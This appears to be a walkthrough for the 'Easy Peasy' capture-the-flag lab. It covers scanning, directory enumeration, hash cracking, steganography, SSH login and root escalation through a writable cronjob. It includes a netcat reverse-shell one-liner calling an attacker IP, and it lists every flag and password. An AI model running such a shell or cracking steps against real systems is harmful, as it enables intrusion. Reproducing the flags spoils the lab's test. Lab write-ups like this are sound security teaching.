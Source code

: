 # Easy Peasy

![image](https://github.com/user-attachments/assets/1491e1ff-41b5-4852-a05f-f73624d5efa5)

## Rustscan
First lets start off by scanning the machine for open ports. Use this command:
```
rustscan -a $IP
```
![image](https://github.com/user-attachments/assets/9528c9f9-b8b5-48c9-b513-93bebb0e01ca)

We can see that theres 3 open ports, 80,6498, and 65524. 

**How many ports are open?** 3


To get further information on these ports, use this nmap command:
```
nmap -A -vv -p80,6498,65524 $IP
```
![image](https://github.com/user-attachments/assets/bf17467c-58c6-4e58-8d2c-ca8e40331b33)

We can see at the top that the version of nginx that is running is 1.16.1 and that the service running on port 65524 is Apache.

**What is the version of nginx?** 1.16.1

**What is running on the highest port?** Apache

Now we can start enumerating the machine. 


## Gobuster

Visiting `http://$IP` we are met with the main page saying, "Welcome to nginx!" Checking the source code doesn't show us anything interesting.

![image](https://github.com/user-attachments/assets/ddadb9a3-aff9-4948-85c3-5b113c35718c)

Visiting robots.txt also doesnt show us anything interesting.

![image](https://github.com/user-attachments/assets/d595029a-c806-45e4-811b-6c218dc86953)

Lets start finding hidden directories from this main page. Use this command:
```
gobuster dir -u http://$IP -w /usr/share/wordlists/dirb/common.txt
```
We found a hidden directory named "hidden"

![image](https://github.com/user-attachments/assets/6e859066-8858-40af-b3bc-e2cfa654f6be)

Visiting this page just shows us a random image

![image](https://github.com/user-attachments/assets/0088444f-56f6-4ddf-8e31-d7b85f309f96)

Lets enumerate further.
```
gobuster dir -u http://$IP/hidden -w /usr/share/wordlists/dirb/common.txt
```

![image](https://github.com/user-attachments/assets/223245ba-2853-4d56-be25-c1d45f3cb2e4)

Now we can see that there is another directory named "whatever" Visiting this page shows us an image of a person on some sort of mountain. What's really interesting is the source code.

![image](https://github.com/user-attachments/assets/587ef34d-cf1f-42c7-8972-3268807836b5)

We can see that there is a base64 encoded string inside of the source code. Decoding this on [this website](https://www.base64decode.net/) gives us the first flag.

**Flag 1**: flag{f1rs7_fl4g}

Now lets visit the other webpage using the URL `http://$IP:65524`. Visiting this greets us with the default welcome page for Apache2 web servers. The first thing we should do is visit the robots.txt page. 

![image](https://github.com/user-attachments/assets/08daf432-292f-4f1a-97aa-26be36c98a26)

We can see that there is a hash here. This hash is an md5 hash and only ONE website can decode this hash. This is the [website](https://md5hashing.net/). Once we put the hash into this website, we can see that it gave us a flag. Be patient as it takes a while.

![image](https://github.com/user-attachments/assets/4d6d9e0b-f8c8-4969-b9d1-421e6c8ed137)


**Flag 2**: flag{1m_s3c0nd_fl4g}

Viewing the source code, we can find many interesting things. The first of which is this encoded string.

![image](https://github.com/user-attachments/assets/692fc7b3-56a0-45b0-b86b-c8cede82eeb9)

Putting this string into a [cipher identifier](https://www.dcode.fr/cipher-identifier), we can see that its a base62 string. Decoding this we get a hidden directory `/n0th1ng3ls3m4tt3r`

**What is the hidden directory?** /n0th1ng3ls3m4tt3r

Before we visit this directory, we can find something else interesting in the source code. 

![image](https://github.com/user-attachments/assets/2871b5d5-e015-4b90-9cc9-e7ac0ca07c3c)

We got the third flag!!

**Flag 3**: flag{9fdafbd64c47471a8f54cd3fc64cd312}

Now we can visit the hidden directory. Visiting `http://$IP/n0th1ng3ls3m4tt3r` we are met with an image. Viewing the source code of this page, we can see that there is another hash. 

![image](https://github.com/user-attachments/assets/5a30796f-6676-4171-b767-5b0d483ff726)

The hint for the 5th question tells us to use the wordlist we downloaded from the task files and to use John the ripper to crack this hash. I used hashcat since I am more familiar with it. I used this command:
```
hashcat -a 0  -m 6900 hash easypeasy_1596838725703.txt
```

![image](https://github.com/user-attachments/assets/3b7a15ee-c643-4df2-8f73-d0c2996a279b)

**Using the wordlist that provided to you in this task crack the hash
what is the password?** mypasswordforthatjob

We can use this password against the image we found in the hidden page using steghide. Use this command:
```
steghide extract -sf binarycodepixabay.jpg
```
When it prompts for a password, use the password we cracked with hashcat. After putting this in, we get a file called `secrettext.txt`. After opening this file, we are met with ssh credentials!

![image](https://github.com/user-attachments/assets/92a37298-0e2b-4d16-a3e6-e742688574f8)

But the password is in binary... This is no problem. We can visit [this website](https://www.rapidtables.com/convert/number/binary-to-ascii.html) and input the binary values to get the password.

**What is the password to login to the machine via SSH?** iconvertedmypasswordtobinary

Now we have the username and password for ssh. 

## Privilege Escalation

 First use this command to log into ssh:
 ```
ssh boring@$IP -p 6498
```
We're in!

![image](https://github.com/user-attachments/assets/e1492cde-46f9-4de2-b2a8-3adf608bfcaf)

We can get user.txt by running `cat user.txt`

![image](https://github.com/user-attachments/assets/aa33a9f2-fcf1-48a7-b22a-8cf052229bf7)

It's rotated... We can solve this too. We can dechipher this by visiting [cyberchef](https://gchq.github.io/CyberChef/#recipe=ROT13_Brute_Force(true,true,false,100,0,true,'')&input=c3ludHthMGp2Z2YzM3pmYTBlejR5fQ0K&ieol=CRLF) and choosing rot13 bruteforce.

![image](https://github.com/user-attachments/assets/09f54f21-e07d-47b8-8339-efc05d43605d)

**user.txt**: flag{n0wits33msn0rm4l}

In the room description, it said that there was a vulnerable cronjob we have to exploit to get root. Running `cat /etc/crontab` we can see that there is a bash script that runs every minute as root.

![image](https://github.com/user-attachments/assets/2017bdd1-399a-4452-9369-426e4f4bc339)

Let's check if its writable.

![image](https://github.com/user-attachments/assets/9139b67c-d265-4a9c-b79c-eced28c61847)

Its writable! We can exploit this to get root. First, I will set up a netcat listener on my host machine with `nc -lvnp 53`. You can choose any port but I prefer port 53. Once this is set up, run `nano .mysecretcronjob.sh` on the ssh machine and copy and paste this script in:
```
rm -f /tmp/f;mknod /tmp/f p;cat /tmp/f|/bin/sh -i 2>&1|nc $ATTACKERIP 53 >/tmp/f
```
After putting this in, we wait one minute on our netcat listener and we get root.

![image](https://github.com/user-attachments/assets/ab460d07-66ce-4b5b-acd1-448d076e91d7)

We are root! Run `cat /root/.root.txt` to get the root flag

**Root Flag**: flag{63a9f0ea7bb98050796b649e85481845}

Congratulations! You completed the room!
